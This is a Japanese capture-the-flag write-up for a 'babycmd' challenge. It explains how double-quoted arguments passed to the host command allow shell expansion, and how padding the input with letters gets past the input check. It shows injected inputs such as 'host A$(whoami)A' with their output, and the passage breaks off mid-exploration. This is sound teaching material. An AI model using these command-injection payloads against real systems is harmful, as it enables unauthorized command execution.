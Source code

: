pingの出力結果に含まれる**% Packet**が、フォーマット文字列の*%p*として解釈され、アドレスが表示されていることがわかりました。format string attack(後述)として攻められるような感じがしましたが、他の人が取り組んでいるようなので違う方法でアプローチをしていくことにしました。

digとhostに文字列を渡した時の括りがそれぞれ違うことに注目しました。digではシングルクオートで、hostではダブルクオートでくくって引数を渡しています。
シェル上では、ダブルクオートの文字列の中で変数を展開できます。`echo "$SHELL"`とすると*/bin/bash*と出力されるのがいい例です。今回の問題の場合は、`host $SHELL`として標準入力から渡すと、`host "/bin/bash"`として実行されると考えられます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
:
```
しかしながら、試しに`host $PWD`として打ってみたところ、引数チェックで引っかかり、*popen*で実行されませんでした。

逆コンパイルの結果、引数チェックでは最初と最後の文字が数字もしくはアルファベットでない場合にエラーとして実行させないようにしていることがわかったので、`host A${PWD}A`として実行してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
: host A${PWD}A
Host A/A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

変数展開されていることが確認できました。/ディレクトリがカレントディレクトリのようです。

### 攻撃手法：OSコマンド インジェクション
これができることがわかると、次に挑戦したくなるのは変数中のコマンド展開によるOSコマンド インジェクションです。
コマンド展開とは、ダブルクオート中に変数を展開するのと同じ要領で、*$(コマンド)*としてコマンドを実行し、文字列中にコマンドの出力を展開するものです。例として、`echo "$(uname)"`とすると*Linux*と返ってきます。これを用いて実行中のユーザーを確認します。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(whoami)A
Host AbabycmdA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

babycmdユーザーとして実行されていることがわかりました。
そこで、ホームディレクトリ内のファイル一覧を取得してみることにしました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls /home/babycmd)A
sh: 1: ls/home/babycmd: not found
Host AA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```
